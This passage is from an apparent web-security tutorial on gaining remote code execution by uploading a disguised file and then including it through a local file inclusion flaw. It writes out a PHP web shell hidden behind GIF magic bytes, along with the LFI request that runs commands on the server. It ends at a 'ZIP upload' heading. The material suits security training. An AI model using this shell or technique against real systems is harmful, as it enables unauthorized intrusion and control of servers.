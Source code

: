 # File upload to execute code (LFI and RCE)

File upload functionalities are ubiquitous in most modern web applications, as users usually need to configure their profile and usage of the web application by uploading their data. For attackers, the ability to store files on the back-end server may extend the exploitation of many vulnerabilities, like a file inclusion vulnerability.

The File Upload Attacks module covers different techniques on how to exploit file upload forms and functionalities. However, for the attack we are going to discuss in this section, we do not require the file upload form to be vulnerable, but merely allow us to upload files.

For the attack we are going to discuss in this section, we do not require the file upload form to be vulnerable, but merely allow us to upload files. If the vulnerable function has code Execute capabilities, then the code within the file we upload will get executed if we include it, regardless of the file extension or file type. For example, **we can upload an image file (e.g. image.jpg), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution**.

### Image upload

Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image. So, we will use an allowed image extension in our file name (e.g. shell.gif), and should also include the image magic bytes at the beginning of the file content (e.g. GIF8), just in case the upload form checks for both the extension and content type as well. We can do so as follows:

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.

Once we've uploaded our file, all we need to do is include it through the LFI vulnerability. To include the uploaded file, we need to know the path to our uploaded file.

In most cases, especially with images, we would get access to our uploaded file and can get its path from its URL. **In our case, if we inspect the source code after uploading the image, we can get its URL**:

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

With the uploaded file path at hand, all we need to do is to include the uploaded file in the LFI vulnerable function, and the PHP code should get executed, as follows:

```url
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

**Probably, you need to remove the GIF8 string which appears before the PHP shell**.


### ZIP upload
